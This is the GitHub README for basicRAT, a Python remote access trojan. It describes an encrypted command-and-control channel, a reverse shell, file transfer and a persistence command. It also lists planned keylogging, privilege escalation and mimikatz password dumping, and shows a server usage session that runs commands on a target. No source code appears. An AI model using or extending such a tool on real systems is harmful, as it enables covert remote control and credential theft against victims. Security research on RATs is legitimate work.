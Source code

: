 # basicRAT

This is a Python RAT (Remote Access Trojan). basicRAT was created to maintain a clean design full-featured Python RAT. Currently a work in progress and still being hacked on.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform
* AES CBC encrypted C2 with D-H exchange
* Reverse shell
* File upload/download

## Todo
* Client binary generation tool (cross-platform)
  * Pyinstaller
  * Switch options for remote IP, port, crypto, key, protocol, etc
* Persistance (cross-platform)
  * Windows: Registry keys, WMIC, Startup Dir
  * Linux: Cron jobs, services, modprobe
* Additional Crypto
* Common C2 Protocols (HTTP, DNS)
* Privilege Escalation (getsystem-esque, dirty cow)
* Screenshot
* Keylogger
* Accept connection from multiple clients
* Toolkit (wget, unrar, unzip)
* Scanning utility
* Password dumping (mimikatz / gsecdump)
* Tunneling
* System survey (sysinfo)

## Usage
```
$ python basicRAT_server.py --crypto AES --port 1337

 ____    ____  _____ ____   __  ____    ____  ______      .  ,
|    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
|  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
|     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
|  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
|     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
|_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
         https://github.com/vesche/basicRAT

basicRAT server listening on port 1337...

[127.0.0.1] basicRAT> help

download <file> - Download a file.
help            - Show this help menu.
persistence     - Apply persistence mechanism.
rekey           - Regenerate crypto key.
run <command>   - Execute a command on the target.
upload <file>   - Upload a file.
quit            - Gracefully kill client and server.

[127.0.0.1] basicRAT> run uname -a
Linux sandbox3 4.8.2-c9 #1 SMP Thu Oct 20 04:08:21 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

## Authors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skyler Curtis [@deadPix3l](https://github.com/deadPix3l)

## Other open-source Python RATs for Reference
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
